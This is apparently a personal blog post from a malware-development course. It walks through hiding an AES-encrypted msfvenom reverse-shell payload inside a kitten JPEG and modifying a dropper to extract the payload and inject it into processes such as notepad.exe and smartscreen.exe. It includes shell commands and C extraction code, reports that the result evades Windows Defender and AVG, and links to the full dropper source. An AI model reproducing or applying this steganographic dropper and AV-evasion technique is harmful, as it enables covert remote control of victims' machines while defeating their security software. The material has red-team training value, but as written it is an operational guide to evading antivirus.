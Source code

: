 ```yaml
---
layout: single
title: AV Evasion - The payload is behind kitties
date: 2020-09-22
classes: wide
header:
  teaser: /assets/images/AV_evasion/kittens.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/kittens.jpg)<br>

## Introduction
Hello and welcome back to the 2nd assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/av-evasion-1/) we saw PE injection using a payload saved as a favicon.ico file, with all the functions and payload encrypted with AES. The next assignment is to hide the payload inside an image and implement the dropper with the capacity of extraction of the payload and injecting it in the PE process target.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to hide the payload inside an image and extract it before injecting in the victim process, so take a look closer to the payload memory loading and analyze what we have to change.

## the Payload
First of all we need to choose how hide our payload behind an image and most important how we want to extract it before using it. <br>
The hint in the assignemt page says we can use file concatenation. So we choosed this way to work (a big thank you to reenz0h for the help):
- Take a kitties image from internet (who doesn't love kitties? :))
- Create the payload with msfvenom
-- in this case I choosed a simple reverse tcp windows x64 shell
- Encrypt the payload with AES
- Append the encrypted payload at the end of the image 
- Append the original lenght of image as last bytes in the image

Once we downloaded the kitties image from internet we can check last 11 rows of the hexadecimal values of the image with ```xxd```
```bash
xxd -g1 U.jpg |  tail -11 
00330990: 81 f1 c0 8a b8 e5 e3 18 00 0e 13 62 25 25 3c 4d  ...........b%%<M
003309a0: f6 02 dc e7 98 fc 6f f6 62 59 5f c2 31 93 3c e2  ......o.bY_.1.<.
003309b0: 85 80 12 07 53 ba 85 c9 20 fe 97 e3 7c 0d c0 03  ....S... ...|...
003309c0: 96 d0 65 4f 89 a7 aa 78 21 2a 0a 58 29 2a b1 1a  ..eO...x!*.X)*..
003309d0: 6f 73 6c 08 53 2d e1 95 45 55 3c d3 4a 9f 09 0b  osl.S-..EU<.J...
003309e0: 1a 46 a3 cc 08 bf 37 bb 17 14 98 c8 38 9e eb 48  .F....7.....8..H
003309f0: 6a 94 92 4e a5 ac 8e 53 74 82 6d f6 fc 7c b0 51  j..N...St.m..|.Q
00330a00: 44 77 c8 1a 70 d2 57 c8 90 db 7a b4 bc 06 d6 e6  Dw..p.W...z.....
00330a10: 4a f5 95 03 ea ed 6e 1f 8e 08 a9 8f 2f 24 b6 f3  J.....n...../$..
00330a20: 7a 65 63 ae a5 cb ea 59 17 d1 60 b4 f3 a9 44 6e  zec....Y..`...Dn
00330a30: 3a e2 56 ce 6c e3 76 41 16 d0 cf ff d9           :.V.l.vA.....
```
Now after the encryption of the payload we can use a copy of the original image (is usefull to work on a copy just in case something doesn't work as exepected, you don't have to download the image everytime) and append the encrypted paylaod to the image with the ```cat``` command

```bash
cat payload_enc >> kittens.jpg
```
Now check the tail of the image compared with the encrypted payload to see if everithing is loaded correctly
![](/assets/images/AV_evasion/hex_compare.png)
As we can see after the hex values ``ff d9`` (that's in the end of every jpg file) we have our encrypted payload. <br>
After that we have to append the value of the size of the original image, in this case 3344957 bytes 

```bash
echo "3344957" >> kittens.jpg
```
Check again the last hex values of the manipulated jpg
![](/assets/images/AV_evasion/hex_compare2.png)
Great! our devil jpg is ready. Now we have to modify our dropper to extract the payload from the image in our victim machine 

## the Dropper
Let's change the name of the payload as a recource by the file ```resources.rc``` to ```kittens.jpg```
```
#include "resources.h"

IMAGE RCDATA kittens.jpg
```
The dropper has a section where the payload is loaded as a resource with the ```FindResourceA``` and ```LoadResource``` functions, its lenght is calculated with ```SizeofResource``` then it is loaded in memory with the ```VirtualAlloc``` function

```bash
...
// Extract payload from resources section
    res = pFindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    resHandle = pLoadResource(NULL, res);
    payload = (char *) pLockResource(resHandle);
    payload_len = pSizeofResource(NULL, res);

// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
...
```
In the code trunk below the Windows functions are called as pointers because of AES encryption as saw in the previous post, this techniques works very well as an AV evasion technique so we can reuse it. Now we have to change this section like this

```bash
// Extract payload from the image
    image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
    image_len = SizeofResource(NULL, res); // get the size of the jpg + p0 + last 7 bytes 
    
    end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without p0
    size = atoi(end); // cast from char to int, now size is the original size of the jpg
    offset = image + size; // offset points to the first char of the p0
    payload_len = image_len - size - 7; // calculate the payload size
    memcpy(payload, offset, payload_len); // copy in another memory area the effective payload 
    
// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```
Long story short, instead of charging the payload from a separated file we need to:
- get the size of the devil image, 
- jump at the end of the devil image and read the last 7 bytes that are the size of the orginal image
- now we can calculate the offset from the original image and the devil image, this difference is the payload
- now we need to calculate the payload lenght
- use memcpy to load the payload in memory and use it as a resource

## Tests
As in the previos post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but this case all the 3 processes inject don't trigger Windows Defender nor AVG Free, however the ```explorer.exe``` injecton cause a reload of the process in the case you exit the shell on my attacking machine and this is very loud. On the other hand nothing appens when we try to inject the ```notepad.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active also when we close Notepad and the ```notepad.exe``` process is destroyed, same story if we try to inject the ```smartscreen.exe``` process, another reverse shell session is opened without any alarm from AVG.
So we are following the TOON rule (Two is One and One is Nothing) also in this case.  

![](/assets/images/AV_evasion/AVG_image_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Behind%20image%20Dropper/implant.cpp) you can find the dropper code. <br>
In the next post we'll try to complete another point of the assignment ```hide the encrypted payload behind an image```.

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https://twitter.com/Sektor7Net) <br>
